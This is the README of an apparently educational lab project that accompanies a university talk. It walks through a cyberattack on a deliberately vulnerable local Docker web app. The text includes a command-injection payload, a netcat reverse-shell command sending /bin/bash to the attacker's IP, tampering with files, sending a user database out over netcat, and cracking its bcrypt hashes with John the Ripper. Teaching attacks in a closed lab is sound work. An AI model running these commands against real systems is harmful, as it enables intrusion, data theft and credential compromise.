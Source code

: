 # 1984 Hacked
## Anatomy of a Cyberattack

This project is the companion demonstration for a talk I gave at Columbia University. Follow the steps
below to perform the demonstration at your own pace.

These instructions were initially created and verified on macOS. Support for additional operating systems
will be added later. 
Please open an issue or PR if you encounter a mistake.

# Disclaimer
This enviroment is for demonstration purposes ONLY. This should not be run in any sort of production environment and ideally, in a closed environment without internet access. This environment is vulnerable, so any system running it therefore becomes vulnerable.

## Required Software
1. [Docker](https://docs.docker.com/desktop/install/mac-install/)
2. [John the Ripper](https://formulae.brew.sh/formula/john)


## Initial Setup
1. Open the Terminal app.
2. Clone this project. `git clone https://github.com/jonmannn/1984-hacked.git`
3. Navigate into the project folder. `cd 1984-hacked`
2. Clear your existing John The Ripper data. `rm ~/.john/john.pot` (This makes repeat demonstrations possible)
3. Build the Docker container. `docker build . -t 1984-hacked`
4. Run the Docker container. `docker run -it -p 8888:8888 1984-hacked`
5. Minimize this terminal and ignore it until you're finished.

## Demonstration
### Exploitation
1. Navigate to the target webpage in a web browser. `http://127.0.0.1:8888` (Note: screenshots include the target domain but are fabricated via modification of /etc/hosts. See this ![guide](https://kinsta.com/knowledgebase/edit-mac-hosts-file/) for more details
2. Login with the stolen credentials:
```
Username: winston.smith@newspeakprinting.com
Password: Julia1984!
```
3. Test the ping tool using an arbitrary IP address like `1.1.1.1` (Cloudflare) or `8.8.8.8` (Google). ![](assets/ping.png)
4. Perform command injection. `1.1.1.1 && whoami` ![](assets/command-injection.png)

### Installation
1. Open another Terminal window.
2. Start a netcat listener. `nc -v -l 4444`
3. Send a shell from the exploited webserver. `1.1.1.1 &&nc <your-ip-address> 4444 -e /bin/bash -vvv`
   ![](assets/netcat-png.png)
(Note: You won't receive feedback from your Netcat listener, after waiting a few moments you can test a simple command like `ls` to ensure you can execute commands.)

### Command and Control
1. With your new access, look around the directory structure. You should
discover that there is a script to print newspapers at `/apps/print_newspaper.py` and that it prints files stored
in `/readyForPressing/`
![](assets/print_newspaper.png)
2. This can be weaponized by modifying the contents of one of the articles stored in `/readyForPressing/`
3. For example, we can replace the adversary name with `Eastasia` in the article titled `Eurasia's Intentions Exposed` with `sed -i ‘s/Eurasia/Eastasia/g’ Front_Page.txt`

### Act On Objectives
1. Locate password database in `/web_auth/users.db`
2. In a new terminal window, open a Netcat listener that writes to a file `nc -v -l 5555 > users.db`
3. In the initial terminal window, upload the file to our new Netcat listener. ![](assets/upload.png)
4. Wait a few moments, as you won't receive any feedback. But since this is a small text file, it shouldn't take more than a few seconds. Then press CTRL + C to exit the Netcat listener.
5. Validate your download on the new terminal window with `cat users.db`
![](assets/users-db-validate.png)
6. Now, we can use John the Ripper to try and crack the passwords. We'll be trying all of the password combinations in the provided wordlist (`wordlist.txt`) in the repository.
7. Run John the Ripper `john --wordlist=path/to/wordlist.txt --format=bcrypt users.db`
![](assets/cracked.png)

## Cleanup
1. Reopen the Terminal window used to run Docker commands. Press CTRL + C to terminate the container.
